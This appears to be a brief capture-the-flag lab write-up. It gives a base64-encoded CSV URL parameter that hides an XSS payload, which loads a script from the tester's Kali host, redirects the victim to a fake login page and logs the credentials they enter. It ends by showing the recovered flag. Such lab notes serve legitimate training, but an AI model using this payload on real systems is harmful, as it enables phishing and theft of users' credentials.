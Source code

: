 copy and paste the `csv` text into the url - turn on the python3 server and hit enter on the url
```csv
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0neCcgb25lcnJvcj0iY29uc3Qgc2NyaXB0ID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7c2NyaXB0LnNyYyA9ICdodHRwOi8vMTkyLjE2OC40NS4yMzYvcGhpc2hpbmdleGVyY2lzZS5qcyc7c2NyaXB0LmFzeW5jID0gdHJ1ZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHNjcmlwdCk7Ij4gLFNhbWFudGhhLDEK
```
upon hitting enter the `url` gets forwarded to grab `http://192.168.45.236/phishingexercise.js` script from our kali machine which redirects to  `http://192.168.45.236/login` page 
![[Pasted image 20240806173943.png]]
upon hitting `login` our `python3` server displays the input fields of `test` and `test`
![[Pasted image 20240806174655.png]]
So now rendering the page as the victim with `blindly entered credentials` 
![[Pasted image 20240806174857.png]]
and in the `python3 -m http.server` we finally get the flag
`OS{j0hnnydonthax}`
![[Pasted image 20240806174929.png]]


